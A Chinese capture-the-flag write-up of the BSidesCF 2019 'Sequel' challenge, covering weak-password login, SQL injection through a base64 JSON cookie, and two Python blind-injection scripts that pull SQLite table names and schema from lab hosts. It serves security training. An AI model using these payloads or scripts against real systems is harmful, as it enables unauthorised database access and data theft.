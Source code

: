 # \[BSidesCF 2019]Sequel

## \[BSidesCF 2019]Sequel

## 考点

## wp

登录页面，随便输提示`Username must be alphanumeric.`

![](<../.gitbook/assets/image (31).png>)

弱口令爆破，guest/guest，登录后提示数据库

![](<../.gitbook/assets/image (5).png>)

抓包发现cookie是`1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9`

base64解码是`{"username":"guest","password":"guest"}`，这里可能存在注入

改成`{"username":"guest'#","password":"guest"}`，提示Invalid user.

改成`{"username":"guest"#","password":"guest"}`，提示Server Error

`"`加个转义符试试，`{"username":"guest\"#","password":"guest"}`，还提示Invalid user.

把`#`改成`--`，`{"username":"guest\"--","password":"guest"}`，成功登录

`{"username":"\" or 1=1--","password":"guest"}`，成功登录

盲注脚本如下

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://60973c61-7d7e-406d-8b6d-4cdce6d2c6d5.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = " ,0123456789_abcdefghijklmnopqrstuvwxyz"
for i in range(1, 50):
    print(flag)
        
    low = 0
    high = 38
    mid = (low+high)//2
    while low < high:
        payload = '{"username":"\\" or 1=((substr((select name from sqlite_master where type=\\"table\\" limit 1 offset 0),'+str(i)+',1))>\\"'+table[mid]+'\\")--","password":"guest"}'
        #  print(payload)
        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
    
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        
        # true
        if len(r.text) > 3400:
            low = mid + 1
        # false
        if 'Invalid user' in  r.text:
            high = mid
        mid = (low+high)//2
            
        if low == high:
            flag = flag + table[low]
            break
```

得到表userinfo，reviews，notes

由于sqlite3在进行字符比较时不区分大小写，所以在注入字段时不能用二分法

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://2bb85f0d-3f92-4755-b53f-d02260975746.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''

for i in range(25, 5000):
    print(flag)
        
    for j in range(32,127):
        st = chr(j)
        if st == '"':
            st = '\\"'
        payload = '{"username":"\\" or 1=((substr((select sql from sqlite_master where type=\\"table\\" and name=\\"userinfo\\" limit 1 offset 0),'+str(i)+',1))=\\"'+st+'\\")--","password":"guest"}'

        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
        #print(payload)
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        #print(r.text)
        # true
        if len(r.text) > 3400:
            flag = flag + chr(j)
            break
        # false
        elif 'Invalid user' in  r.text:
            continue
        else:
            flag = flag + '#'
            continue
 
```



## 小结

sqlite3注入

1. 找表`select name from sqlite_master where type="table"`，需要限制输出的话是`select name from sqlite_master where type="table" limit 1 offset 0`，修改offset，从0开始，如果超过表的数量会返回错误
2. 找字段`select sql from sqlite_master where type="table" and name="userinfo"`
3.
